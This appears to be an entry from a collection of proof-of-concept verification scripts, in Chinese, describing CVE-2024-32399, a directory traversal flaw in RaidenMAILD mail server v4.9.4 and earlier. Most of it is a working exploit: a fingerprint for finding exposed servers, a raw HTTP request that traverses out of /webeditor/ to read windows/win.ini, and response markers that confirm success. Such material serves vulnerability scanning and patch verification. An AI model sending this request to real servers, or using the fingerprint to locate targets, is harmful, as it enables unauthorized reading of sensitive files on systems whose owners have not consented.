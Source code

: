 ﻿# RaidenMAILD 邮件服务器 路径遍历漏洞

> 更新时间：2024-04-30

> 漏洞编号：CVE-2024-32399

> 漏洞说明：RaidenMAILD是一款稳定、安全、高性能的邮件服务器软件，适用于中小型企业、机构以及个人用户搭建自己的邮件系统。该产品 Raden MAILD Mail Server v.4.9.4及以前版本中存在目录遍历漏洞，允许远程攻击者通过/webeditor/组件获取敏感信息。

> 漏洞特征：body="RaidenMAILD"

> 验证脚本：HTTP

```
GET /webeditor/../../../windows/win.ini HTTP/1.1
Cache-Control: max-age=0
Connection: close
```

> 响应代码特征：200

> 响应内容特征：support

> 上传文件定位：

> 验证文件来源：RaidenMAILD 邮件服务器 路径遍历漏洞.poc

